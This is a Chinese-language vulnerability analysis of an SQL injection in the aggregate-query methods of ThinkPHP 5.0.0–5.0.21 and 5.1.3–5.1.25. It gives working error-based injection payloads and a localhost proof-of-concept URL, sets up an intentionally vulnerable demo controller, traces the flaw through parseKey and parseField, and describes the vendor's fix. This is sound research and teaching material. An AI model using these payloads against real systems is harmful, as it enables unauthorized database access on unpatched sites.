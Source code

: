```yaml
---
title: "5.1.3<=ThinkPHP5<=5.1.25 sql注入漏洞"
id: zhfly3170
---
```


# 5.0.0 <= Thinkphp <= 5.0.21 & 5.1.3<=ThinkPHP5<=5.1.25

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（所有 **Mysql** 聚合函数相关方法均存在注入）。本次漏洞存在于所有 **Mysql** 聚合函数相关方法。由于程序没有对数据进行很好的过滤，直接将数据拼接进 **SQL** 语句，最终导致 **SQL注入漏洞** 的产生。

## 漏洞概要

## 二、漏洞影响

5.0.0<=ThinkPHP<=5.0.21

5.1.3<=ThinkPHP5<=5.1.25

## 三、复现过程

不同版本 **payload** 需稍作调整：

 **5.0.0~5.0.21** 、 **5.1.3～5.1.10** ：

```
id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

**5.1.11～5.1.25** ：

```
id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

## 漏洞环境

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think=5.1.25 tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.25"
}, 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$options = request()->get(‘options’);

$result = db(‘users’)->max($options);

var_dump($result);

}

}` 
```

在 **config/database.php** 文件中配置数据库相关信息，并开启 **config/app.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'Mochazz');
insert into users(id,username) values(2,'Jerry');
insert into users(id,username) values(3,'Kitty'); 
```

### poc

```
http://localhost:8000/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1.png](../img/fe2ee76d62c986a9a764b54fa0acbc48.png)

### 漏洞分析

首先在官方发布的 **5.1.26** 版本更新说明中，发现其中提到该版本包含了一个安全更新。

![2.png](../img/6fbca03c24d6aa353950a6e0c2b7da5d.png)

我们可以查阅其 **commit** 记录，发现其改进了数据库驱动，代码中多了检测特殊字符的片段。接下来我们直接来分析代码。

![3.png](../img/a5bd25de04e10283cbcfe09f76969df9.png)

首先，用户可控数据未经过滤，传入 **Query** 类的 **max** 方法进行聚合查询语句构造，接着调用本类的 **aggregate** 方法。本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在 **SQL注入** 问题。我们看到 **aggregate** 方法又调用了 **Mysql** 类的 **aggregate** 方法，在该方法中，我们可以明显看到程序将用户可控变量 **$field** ，经过 **parseKey** 方法处理后，与 **SQL** 语句进行了拼接。下面我们就来具体看看 **parseKey** 方法。

![4.png](../img/1b85d402dfa6e43eb4fbcbc678b361b8.png)

**parseKey** 方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号。经过 **parseKey** 方法处理后，程序又回到了上图的 **$this->value()** 方法中，该方法会调用 **Builder** 类的 **select** 方法来构造 **SQL** 语句。这个方法应该说是在分析 **ThinkPHP** 漏洞时，非常常见的了。其无非就是使用 **str_replace** 方法，将变量替换到 **SQL** 语句模板中。这里，我们重点关注 **parseField** 方法，因为用户可控数据存储在 **$options['field']** 变量中并被传入该方法。

![5.png](../img/f9ae84bc26afd514464361ccf7e65fc1.png)

进入 **parseField** 方法，我们发现用户可控数据只是经过 **parseKey** 方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 **SQL** 语句模板里，导致 **SQL注入漏洞** 的发生

![6.png](../img/f7adbd38409f75caa9cc80a7452c15b3.png)

### 漏洞修复

官方的修复方法是：当匹配到除了 **字母、点号、星号** 以外的字符时，就抛出异常。

![3.png](../img/a5bd25de04e10283cbcfe09f76969df9.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![7.png](../img/8892565b850eadb38334273b576349a5.png)

## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln